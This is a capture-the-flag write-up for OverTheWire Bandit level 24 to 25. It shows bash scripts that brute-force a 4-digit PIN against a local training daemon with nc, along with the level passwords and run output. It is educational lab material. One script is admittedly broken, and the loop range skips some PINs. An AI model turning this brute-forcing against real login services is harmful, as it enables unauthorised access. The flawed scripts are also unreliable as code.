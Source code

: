 ## Bandit Level 24 -> Level 25

## Level Goal

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinaties, called brute-forcing.

## Solution

write a bruteforcing script to crack the password
I tried several times but failed to solve it quickly
the program below refers Nikkko from wooyun, the link is [HERE](http://drops.wooyun.org/tips/6211)

```
$ cd /tmp
$ vim tbf.sh
pass="UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"
for i in {1000..10000}
do {
if
    echo $pass $i| nc localhost 30002 | grep Wrong > /dev/null
then
    echo $i
else
    echo $pass $i| nc localhost 30002
    exit
fi
}
done
$ chmod +x tbf.sh
$ ./tbf.sh
(afer about teo hours.....I got the following)
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

Exiting.
```

---

But I think it's not necessary to use commond 'nc' so many times
I try to use redirct so as to 'nc ...' only once
It cound be faster and faster.

Like this:(but it doesn't work, If only someone could help me, thanks)
```
#!/bin/bash
pwd="MYTrfrBFHyQXmg6gzctqAwOmw1IohZ"
exec 1>nc localhost 30002
for i in {1000..10000}
do
        echo $pwd $i
done
```

This works:
echo "" > pins && for i in {0000..9999}; do echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i >> pins; done && cat pins | nc localhost 30002
